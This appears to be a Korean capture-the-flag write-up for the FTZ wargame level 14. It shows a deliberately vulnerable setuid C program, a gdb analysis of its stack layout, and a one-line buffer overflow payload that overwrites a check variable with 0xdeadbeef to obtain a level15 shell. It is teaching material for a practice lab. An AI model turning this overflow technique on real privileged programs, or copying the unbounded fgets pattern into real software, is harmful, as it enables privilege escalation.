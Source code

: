 # FTZ 14  
## 문제설명  
attackme 프로그램을 공격하자. attackme 소스코드는 hint에 적혀있다. 소스코드는 아래와 같다.  
~~레벨14 이후로는 mainsource의 문제를 그대로 가져왔습니다.  
버퍼 오버플로우, 포맷스트링을 학습하는데는 이 문제들이 최고의 효과를 가져다줍니다.~~ 라고 한다.  
```
#include <stdio.h>
#include <unistd.h>

main()
{
	int crap;
	int check;
	char buf[20];
	fgets(buf, 45, stdin);
	
	if(check == 0xdeadbeef)
	{
		setreuid(3095, 3095);
		system("/bin/sh");
	}
}
```  
별다른 기법은 필요없고 check 부분에 0xdeadbeef가 들어가면 권한이 상승되고 쉘을 얻을 수 있다.  
attackme 파일 소유권이 level15이기 때문에 ruid, euid가 set되면 된다!  

## 문제풀이  
### 풀이과정  
1. 스택 프레임 구조는 대략 아래와 같을 것이다.  

|ret [4]|
|:---:|
|sfp [4]|
|crap [4]|
|check [4]|
|buf [20]|

변수 선언 후 fgets 함수를 통해 표준입력(stdin) 형식으로 문자열을 받아 buf에 저장한다. 여기서 길이 체크를 45까지 하면서 입력값을 선언된 버퍼의 크기보다 초과하여 입력값을 전달할 수 있다!  

2. gdb를 통해 스택구조를 자세히 파악해보자.  
<img width="312" alt="1" src="https://user-images.githubusercontent.com/46364778/89107121-c6c9f400-d469-11ea-95ce-0aeba371d118.PNG">  

- ```<main+15> push 0x2d``` : 45를 스택에 push  
- 
- **```<main+17>: lea eax, [ebp-56]```** : 입력값 받는 위치  
- **```<main+29>: cmp DWORD PTR [ebp-16], 0xdeadbeef```** : check와 0xdeadbeef 비교. 0xdeadbeef가 하드코딩이 되어 있으므로 이 주소를 이용하여 공격이 가능  
- ```push 0xc17``` : 3095이다! 그 다음에 호출될 setreuid 함수의 인자들을 미리 push하고 있다.  
- 

사용할 메모리 공간을 0x38(56byte)크기 만큼 확보하는 것을 볼 수 있다.  
예상했던 스택프레임의 크기보다 많은 공간을 확보한다는 것은 변수와 변수 사이 혹은 변수와 sfp사이에 dummy값이 존재한다는 것을 알 수 있다.  

변수와 변수 사이 혹은 sfp와의 dummy 크기를 알아내야하지만 사실 필요없다.  
우리가 필요한 변수의 주소는 main+29 cmp문을 보면 쉽게 알 수 있다.  
[ebp-16] 주소의 값과 0xdeadbeef의 값을 비교하는 구문이다.  
따라서 ebp-16주소에 0xdeadbeef 값을 넣어주면 끝!  

check와 우리가 입력을 하는 buf 사이의 거리는  
ebp를 기준으로 buf => [ebp-56]  
ebp를 기준으로 check => [ebp-16] 이므로 40이다.  

3. 페이로드 작성  
따라서 40을 nop으로 채우고 그 이후에 0xdeadbeef를 넣어주면 된다.  
* 직접 check에 0xdeadbeef 넣기  
```
(python -c 'print "\x90"*40 + "\xef\xbe\xad\xde"'; cat) | ./attackme
```  

4. level15 권한의 쉘이 바로 뜬다. whoami로 uid확인해보자! 비밀번호를 알아내자. "guess what"  

### 외전 - dummy 완벽히 파악하기  
1. 더미 확인을 위해 distance.c라는 소스코드를 작성해보자.  
```
#include <stdio.h>
#include <unistd.h>

main() {
	int crap;
	int check;
	char buf[20];
	fgets(buf,45,stdin);
	
	if(check==0xdeadbeef){
		setreuid(3095,3095);
		system("/bin/sh");
	}
	
	printf("Input is : %s\n &buf : %p\n &check : %p\n &crap: %px\n", buf, buf, &check, &crap);
}
```  

```
./distance 후 buf에 아무 값이나 입력해라! ex.AAA

//결과
Input is : AAAA

&buf: 0xbffff420
&check: 0xbffff448
&crap: 0xbffff44c
```  

이를 통해 buf의 시작과 check의 시작은 40byte차이, check와 crap은 4byte 차이가 난다는 것을 알 수 있다.  
buf는 20byte이므로 buf와 check 사이의 더미는 20바이트  
check는 4byte이므로 check와 crap 사이의 더미는 없다, 고로 crap과 sfp 사이의 더미가 있다는 것!  
56(처음 할당받은 가용메모리) - 20(buf) - 20(dummy) - 4(check) - 4(crap) =8 남은건 8byte이므로 crap와 sfp 사이의 dummy가 8byte이다.  
(검산은 56할당받았는데 우리가 해준 변수 할당은 20+4+4=28이므로 나머지 28이 더미니까, 더미들 더하면 28, 맞네!)  

|ret [4]|
|:---:|
|sfp [4]|
|dummy [8]|
|crap [4]|
|check [4]|
|dummy [20]|
|buf [20]|


